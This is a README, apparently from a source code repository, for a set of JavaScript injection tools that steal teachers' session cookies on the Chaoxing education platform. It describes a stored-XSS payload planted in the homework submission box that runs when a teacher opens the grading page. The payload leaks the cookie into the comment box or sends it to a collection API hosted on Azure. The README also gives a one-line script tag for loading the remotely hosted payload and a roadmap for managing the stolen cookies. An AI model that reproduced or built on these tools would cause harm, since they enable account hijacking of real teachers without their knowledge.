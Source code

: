 ## Doc

### ver 1.0
    a set of js injection tools for steal account cookies of chaoxing platform

- ### ChaoXingAPI
    a restful api for teacher cookies

    models compoents:

        name[string]

        cookie[string]

        time[string]

    already configered for publishing to azure

    `start point: ***.***.***/api/teachercookies`

    ### `remember to set the CSOR policy in app service setting`

- ### payloads.js
    The js code to inject in the homework box in submit page and it will execute when teacher open the homework checking page.
    It will dump the cookie in two ways

    - inject the cookie in text form as html comment in the teacher comment box.
    So the cookie can be lookup in the teacher comment box. [ implemented in stt function ]

    - the second function disabled by default.
    To enable it,modify the server url and uncomment the line that execute the function. [ implemented in sendInfoToServer function ]


- RoadMap
    - add admin page for managering cookie itemes stored on server better. [ important ]
    - embed js code into api project it
    - improve the inmemory database to delete the expired cookie automatically. [ archived,it's impossible ]


- Tips
  
  Js code can be hosted on server and inject one line of code below to simplify the process.
  - ```<script src="https://www.***.***/***.js"></script>```
